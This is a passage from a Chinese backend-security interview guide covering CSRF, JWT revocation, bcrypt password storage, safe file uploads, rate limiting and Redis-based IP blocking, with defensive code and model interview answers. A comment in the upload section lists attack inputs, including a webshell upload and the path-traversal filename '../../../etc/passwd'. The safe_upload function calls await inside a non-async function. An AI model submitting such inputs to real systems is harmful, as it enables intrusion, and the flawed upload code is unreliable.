# Lax:     允许从外部链接跳转时发送（平衡安全与体验）
# None:    始终发送（不安全，只用于跨域场景且必须配合 HTTPS）
```

**面试话术：**

> "CSRF 利用了**浏览器自动携带 cookie 的特性**。攻击者不能读取 cookie（同源策略保护），但可以诱导浏览器发起请求，浏览器会自动带上 cookie。防御主要有三层：**CSRF Token**（隐藏字段，攻击者猜不到）、**SameSite Cookie**（Chrome 80+ 默认 Lax）、**验证码/二次确认**（敏感操作加手工确认）。前后端分离的 API 项目用 Token 认证（JWT）天然免疫 CSRF，因为 Token 不会像 cookie 一样自动发送。"

---

### Q4: JWT Token 有什么安全风险？如何防范？

**攻击原理：** JWT 本身是无状态的——签发后无法在服务端撤销。这意味着：

1. **Token 泄露后果严重**：攻击者拿到 token 后，在过期之前可以任意冒充用户
2. **无法强制踢人下线**：如果用户修改密码，旧 token 仍然有效
3. **Token 存储在 localStorage 有 XSS 风险**：localStorage 里的 token 可被 JS 读取

```python
# JWT 固有风险示意图
# 用户修改密码后，旧的 token 不会自动失效
token = jwt.encode({"user_id": 1, "exp": time() + 72*3600}, SECRET)
# 这个 token 在 72 小时内始终有效，服务端无法"撤回"
```

**防范措施：**

```python
# 1. 短有效期 + Refresh Token
ACCESS_TOKEN_EXPIRE = 15 * 60      # 15 分钟
REFRESH_TOKEN_EXPIRE = 7 * 24 * 3600  # 7 天

# 2. Token 黑名单（Redis）
import redis
r = redis.Redis()

def revoke_token(token_jti: str, ttl: int):
    """将 token 加入黑名单，ttl 内的请求被拒绝"""
    r.setex(f"blacklist:{token_jti}", ttl, "1")

def check_token(token_jti: str) -> bool:
    """检查 token 是否在黑名单"""
    return r.exists(f"blacklist:{token_jti}") == 0

# 3. 不要在 payload 里放敏感信息
# ❌ jwt.encode({"password": "xxx", "credit_card": "xxx"}, SECRET)
# ✅ jwt.encode({"user_id": 1}, SECRET)

# 4. 用 httpOnly cookie 存储 token（防 XSS 读取）
# 前端无法通过 JS 读取 httpOnly cookie，XSS 攻击也读不到 token
```

**面试话术：**

> "JWT 最大的问题是**无法主动撤销**。如果有人拿到 token，在过期前都能操作。应对策略：token 有效期设短一点（15 分钟），配合 Refresh Token 保证体验；需要强制踢人时用 Redis 黑名单；敏感信息不放 JWT payload（payload 只是 base64 编码，不是加密的）；推荐 httpOnly cookie 存 token，防止 JS 读取。"

---

### Q5: 密码应该如何存储？

**攻击原理：** 如果数据库用明文存密码，一旦被拖库，所有用户的密码直接暴露。更重要的是，大部分用户在不同网站用同一个密码——一个网站泄露，全部账号遭殃。

**正确做法——单向哈希 + 加盐：**

```python
import bcrypt

# ✅ 注册时：bcrypt 哈希存储
password = "user_password_123"
hashed = bcrypt.hashpw(password.encode(), bcrypt.gensalt())
# 结果: $2b$12$KIXx3L... ← 包含了随机盐值，每次哈希结果不同

# ✅ 登录时：验证哈希
user_input = "user_password_123"
if bcrypt.checkpw(user_input.encode(), hashed_from_db.encode()):
    print("密码正确")

# ❌ 错误做法展示：
# 1. 明文存储: password = "123456"  → 泄露即完蛋
# 2. 简单 MD5:  md5(password)       → 彩虹表秒破
# 3. MD5 + 固定盐:  md5(password + "salt") → 密码相同哈希相同
```

| 哈希算法 | 安全性 | 推荐 |
|------|------|------|
| MD5 | 已被破解，彩虹表秒破 | ❌ |
| SHA256 | 太快，可暴力枚举 | ❌ |
| bcrypt | 慢哈希 + 自动加盐，抗暴力 | ✅ |
| argon2 | 最先进，抗 GPU 破解 | ✅ |

**面试话术：**

> "密码存储核心原则：**永远不可逆**。用慢哈希（bcrypt/argon2）而不是快哈希（SHA256），因为慢哈希让攻击者的暴力枚举成本极高。`gensalt()` 会生成随机盐值，保证相同密码生成不同哈希，防彩虹表。说到登录安全，还有一个要点——**限制登录尝试次数**，比如同一个 IP 5 分钟内最多尝试 5 次，用 Redis 实现计数，阻止暴力破解。"

---

### Q6: 文件上传有什么安全风险？如何防范？

**攻击原理：** 用户不只是上传图片——他可以上传包含恶意代码的 PHP 文件、可执行的 `.exe`、过大的文件撑爆磁盘、甚至文件名带 `../` 进行路径穿越。

```python
# 攻击示例
# 1. 上传 webshell.php  → 如果存在可访问目录 → 远程执行命令
# 2. 文件名: ../../../etc/passwd  → 覆盖系统文件
# 3. 上传 10GB 文件 → 磁盘被撑爆
# 4. 上传 .html 包含 XSS → 其他用户访问即中招
```

**防范措施：**

```python
import os
import uuid
from pathlib import Path
from PIL import Image

ALLOWED_EXTENSIONS = {".jpg", ".jpeg", ".png", ".gif", ".pdf"}
MAX_FILE_SIZE = 10 * 1024 * 1024  # 10MB
UPLOAD_DIR = Path("/var/uploads")


def safe_upload(file) -> str:
    # 1. 校验文件大小
    file.file.seek(0, 2)  # 移到文件末尾
    size = file.file.tell()
    file.file.seek(0)
    if size > MAX_FILE_SIZE:
        raise ValueError("文件过大")

    # 2. 校验扩展名白名单
    suffix = Path(file.filename).suffix.lower()
    if suffix not in ALLOWED_EXTENSIONS:
        raise ValueError(f"不允许的文件类型: {suffix}")

    # 3. 自己生成文件名（不用用户提供的）
    safe_name = f"{uuid.uuid4()}{suffix}"
    dest = UPLOAD_DIR / safe_name

    # 4. 防路径穿越（确保最终路径在 UPLOAD_DIR 内）
    if not str(dest.resolve()).startswith(str(UPLOAD_DIR.resolve())):
        raise ValueError("路径穿越攻击")

    # 5. 如果是图片，校验文件头（防伪造扩展名）
    content = await file.read()
    with open(dest, "wb") as f:
        f.write(content)

    if suffix in {".jpg", ".jpeg", ".png"}:
        try:
            img = Image.open(dest)
            img.verify()  # 校验是否是合法图片
            # 另存为消除可能嵌入的恶意代码
            img = Image.open(dest)
            img.save(dest)
        except Exception:
            os.remove(dest)
            raise ValueError("文件不是合法图片")

    # 6. 不要在可被直接访问的目录存放上传文件
    # ✅ /var/uploads （不可被 Web 直接访问，通过 API 读取）
    # ❌ /var/www/static/uploads （可被直接访问，上传的 PHP 会被执行）

    return safe_name
```

**面试话术：**

> "文件上传有五个风险点需要逐一防：**类型校验**检查扩展名白名单（不是黑名单，因为攻击者可以换不常见的后缀）；**大小限制**防 Dos；**文件名安全**自己生成 UUID 文件名，不用用户提供的名字；**内容校验**图片要验证文件头——把 `.php` 改名为 `.jpg` 是常见的绕过手法，PIL 的 `.verify()` 能检测出来；**存放位置**不与 Web 可执行目录放在一起，通过 API 读取而非直接 URL 访问。"

---

### Q7: 什么是 DDoS 攻击？后端如何防护？

**攻击原理：** 攻击者控制大量傀儡机（肉鸡），同时向目标服务器发起海量请求，消耗带宽、CPU、内存、数据库连接等资源，导致正常用户无法访问。

```
正常:  用户A ──→ 服务器 ✓
攻击:  10000 台肉鸡 ──→ 服务器 ✗（资源耗尽）
```

**防护措施——逐层限流：**

```python
# 层 1: Nginx 限流
"""nginx.conf"""
# 限制每个 IP 每秒最多 10 个请求
limit_req_zone $binary_remote_addr zone=mylimit:10m rate=10r/s;

server {
    location /api/ {
        limit_req zone=mylimit burst=20 nodelay;
        proxy_pass http://backend;
    }
}

# 层 2: 应用层限流（FastAPI + Redis）
import time
import redis
from fastapi import HTTPException, Request

r = redis.Redis()

async def rate_limit(request: Request, max_requests: int = 60, window: int = 60):
    """每个 IP 每分钟最多 60 个请求"""
    client_ip = request.client.host
    key = f"rate_limit:{client_ip}"
    current = r.get(key)

    if current is None:
        r.setex(key, window, 1)
    elif int(current) > max_requests:
        raise HTTPException(status_code=429, detail="请求过于频繁，请稍后再试")
    else:
        r.incr(key)

# 层 3: 敏感接口额外限制
@app.post("/api/v1/login")
async def login(request: Request, username: str, password: str):
    # 登录接口限流：每个 IP 每分钟 5 次
    client_ip = request.client.host
    login_key = f"login_attempt:{client_ip}"
    attempts = r.get(login_key)

    if attempts and int(attempts) >= 5:
        raise HTTPException(status_code=429, detail="登录尝试过多，请 5 分钟后重试")

    r.incr(login_key)
    r.expire(login_key, 300)
    # ... 登录逻辑
```

**面试话术：**

> "DDoS 防御是多层的，单靠应用层不够。第一层是 CDN（Cloudflare、阿里云 CDN）吸收流量；第二层是 Nginx `limit_req` 按 IP 限流；第三层是应用层对敏感接口单独限流（登录/注册/发验证码）。核心思想是**在离用户最近的地方拒绝恶意请求**，不要让它们到达业务代码。对于分布式 DDoS（每个 IP 只发少量请求），需要结合行为分析——比如同一用户 1 秒内从三个不同 IP 登录。"

---

### Q7 补充：IP 监控与自动封禁

**攻击原理：** 仅靠限流还不够——攻击者可以控制在阈值边缘反复试探。需要**监控异常行为 → 自动封禁 → 定时解封**的完整闭环。

常见的异常行为模式：

| 行为 | 特征 | 判定 |
|------|------|------|
| 暴力破解 | 同一 IP 连续登录失败 | 5 次/5 分钟 → 封 30 分钟 |
| 接口扫描 | 短时间内访问大量不存在的路径 | 404 次数异常 → 封 |
| 爬虫 | 每秒请求超过阈值 | 超过阈值 → 加入黑名单 |
| 代理池攻击 | 不同 IP 但相同 UA + 相同请求模式 | 行为指纹匹配 → 封 |

**完整监控 + 封禁系统：**

```python
import redis
import time
from functools import wraps

r = redis.Redis(decode_responses=True)


class IPBlocker:
    """IP 监控 + 自动封禁系统"""

    # ── 检查是否已封禁 ──
    @staticmethod
    def is_blocked(ip: str) -> bool:
        return r.exists(f"blocked:{ip}") == 1

    # ── 封禁 IP ──
    @staticmethod
    def block(ip: str, reason: str, minutes: int = 30):
        """封禁 IP 指定分钟"""
        r.setex(f"blocked:{ip}", minutes * 60, reason)

        # 记录到持久化日志（方便事后审计）
        import logging
        logging.warning(f"封禁IP: {ip} | 原因: {reason} | 时长: {minutes}分钟")

    # ── 解封 ──
    @staticmethod
    def unblock(ip: str):
        r.delete(f"blocked:{ip}")

    # ── 记录失败行为（滑动窗口计数） ──
    @staticmethod
    def record_failure(ip: str, action: str, window: int = 300, threshold: int = 5):
        """
        记录一次失败行为。如果时间窗口内超过阈值，自动封禁。

        action: "login_fail" | "404" | "api_abuse"
        window: 时间窗口（秒）
        threshold: 触发封禁的阈值
        """
        key = f"fail:{ip}:{action}"
        count = r.incr(key)
        r.expire(key, window)

        if count >= threshold:
            IPBlocker.block(ip, f"{action} 触发阈值 ({count}/{window}s)", minutes=30)
            return True  # 已封禁
        return False

    # ── 获取封禁列表 ──
    @staticmethod
    def get_blocked_ips() -> list[dict]:
        """获取当前所有被封禁的 IP 及原因"""
        result = []
        for key in r.scan_iter("blocked:*"):
            ip = key.split(":", 1)[1]
            reason = r.get(key)
            ttl = r.ttl(key)
            result.append({"ip": ip, "reason": reason, "remaining_seconds": ttl})
        return result


# ── FastAPI 中间件：自动拦截被封 IP ──
from fastapi import Request, HTTPException

@app.middleware("http")
async def block_middleware(request: Request, call_next):
    client_ip = request.client.host
    if IPBlocker.is_blocked(client_ip):
        reason = r.get(f"blocked:{client_ip}")
        raise HTTPException(status_code=403, detail=f"IP 已被封禁: {reason}")
    return await call_next(request)


# ── 登录接口：集成失败监控 ──
@app.post("/login")
async def login(request: Request, username: str, password: str):
    client_ip = request.client.host

    # 1. 先检查是否已封禁
    if IPBlocker.is_blocked(client_ip):
        raise HTTPException(status_code=403, detail="IP 已被临时封禁，请稍后再试")

    # 2. 验证密码
    user = verify_user(username, password)
    if not user:
        # 记录失败 → 超过 5 次自动封禁
        IPBlocker.record_failure(client_ip, "login_fail", window=300, threshold=5)
        raise HTTPException(status_code=401, detail="用户名或密码错误")

    # 3. 登录成功 → 清除该 IP 的失败记录
    r.delete(f"fail:{client_ip}:login_fail")

    return {"token": create_token(user["id"])}


# ── 行为指纹识别（防代理池） ──
def detect_anomaly(request: Request):
    """
    同一 User-Agent + 相同请求模式, 但不同 IP → 可能是代理池攻击
    """
    ua = request.headers.get("User-Agent", "")
    path = request.url.path
    fingerprint = f"anomaly:{ua}:{path}"

    r.sadd(fingerprint, request.client.host)
    r.expire(fingerprint, 60)  # 1 分钟窗口

    ip_count = r.scard(fingerprint)
    if ip_count > 10:  # 同一UA+同一接口, 1分钟内超过10个不同IP
        for ip in r.smembers(fingerprint):
            IPBlocker.block(ip, "代理池攻击检测", minutes=60)


# ── Nginx 层封禁（最高效） ──
"""
当发现攻击时，把 IP 写入 Nginx 黑名单文件，让 Nginx 在 TCP 层直接拒绝，
请求甚至不会到达 Python 进程。

# 1. 应用层检测到攻击后写入文件
echo "deny 192.168.1.100;" >> /etc/nginx/blocked_ips.conf

# 2. Nginx 配置自动加载
http {
    include /etc/nginx/blocked_ips.conf;
}

# 3. 定期清理过期规则（cron）
0 */2 * * * /usr/local/bin/clean_blocked_ips.py
"""
```

**面试话术：**

> "IP 监控封禁核心是**检测 → 封禁 → 解封**三步闭环。检测靠 Redis 滑动窗口计数——同一 IP 在 5 分钟窗口内触发失败多少次，超过阈值自动封禁 30 分钟，过期自动解封。封禁可以在三个层面：应用层（FastAPI 中间件直接拒绝）、Nginx 层（写入 deny 规则，最高效）、CDN 层（Cloudflare Firewall Rules，在流量入口就拦截）。还有一个容易被忽略的点——**行为指纹**。攻击者用代理池换 IP 时，每个 IP 只发少量请求，单 IP 限流拦不住。但他们的 User-Agent、请求路径、时间间隔模式是相同的，把这些做成指纹，跨 IP 关联分析就能识别出来。"

---

> 持续更新中 | 最后更新 2026-06-08
